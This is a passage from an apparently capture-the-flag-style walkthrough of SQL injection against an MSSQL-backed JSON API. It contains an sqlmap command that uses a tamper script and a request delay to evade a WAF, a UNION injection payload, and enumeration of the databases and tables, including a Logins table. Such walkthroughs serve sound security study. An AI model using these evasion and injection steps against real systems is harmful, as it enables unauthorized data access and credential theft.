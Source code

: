 We can now start using SQLMap with the tamperscript, the database, the OS and the technique specified. The delay is necessary, as the WAF would block us otherwise.

```bash
root@darkness:~# sqlmap -r api.req --tamper=charunicodeescape --risk 3 --level 5 --dbms=mssql --os Windows --delay 3 --technique U --batch
```

SQLMap gives us following output:

```bash
sqlmap identified the following injection point(s) with a total of 70 HTTP(s) requests:

Parameter: JSON #1* ((custom) POST)
    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns

Payload: {"name":"-4310' UNION ALL SELECT 66,66,CHAR(113)+CHAR(118)+CHAR(113)+CHAR(118)+CHAR(113)+CHAR(65)+CHAR(116)+CHAR(79)+CHAR(88)+CHAR(65)+CHAR(120)+CHAR(72)+CHAR(104)+CHAR(89)+CHAR(80)+CHAR(118)+CHAR(72)+CHAR(115)+CHAR(112)+CHAR(118)+CHAR(111)+CHAR(83)+CHAR(121)+CHAR(78)+CHAR(121)+CHAR(108)+CHAR(114)+CHAR(109)+CHAR(114)+CHAR(89)+CHAR(101)+CHAR(118)+CHAR(88)+CHAR(83)+CHAR(68)+CHAR(78)+CHAR(108)+CHAR(82)+CHAR(100)+CHAR(90)+CHAR(78)+CHAR(73)+CHAR(85)+CHAR(70)+CHAR(102)+CHAR(113)+CHAR(113)+CHAR(120)+CHAR(112)+CHAR(113),66,66-- hoKn"}

[13:58:47] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[13:58:47] [INFO] testing Microsoft SQL Server
[13:58:50] [INFO] confirming Microsoft SQL Server
[13:58:59] [INFO] the back-end DBMS is Microsoft SQL Server
back-end DBMS: Microsoft SQL Server 2017
```

SQLMap successfully found the UNION injection with 5 columns. Next up let us dump all databases using the `--dbs` flag.

```bash
[14:10:30] [INFO] fetching database names
[14:10:41] [INFO] retrieved: 'Hub_DB'
[14:10:46] [INFO] retrieved: 'master'
[14:10:51] [INFO] retrieved: 'model'
[14:10:56] [INFO] retrieved: 'msdb'
[14:11:01] [INFO] retrieved: 'tempdb'
available databases [5]:                                                                                             
[*] Hub_DB
[*] master
[*] model
[*] msdb
[*] tempdb
```

Now let us dump all tables of `Hub_DB` by specifying the `-D Hub_DB --tables` flags.

```bash
[14:12:07] [INFO] fetching tables for database: Hub_DB
[14:12:17] [INFO] retrieved: 'dbo.Colleagues'
[14:12:23] [INFO] retrieved: 'dbo.Logins'
Database: Hub_DB                                                                                                     
[2 tables]
+------------+
| Colleagues |
| Logins     |
+------------+
```
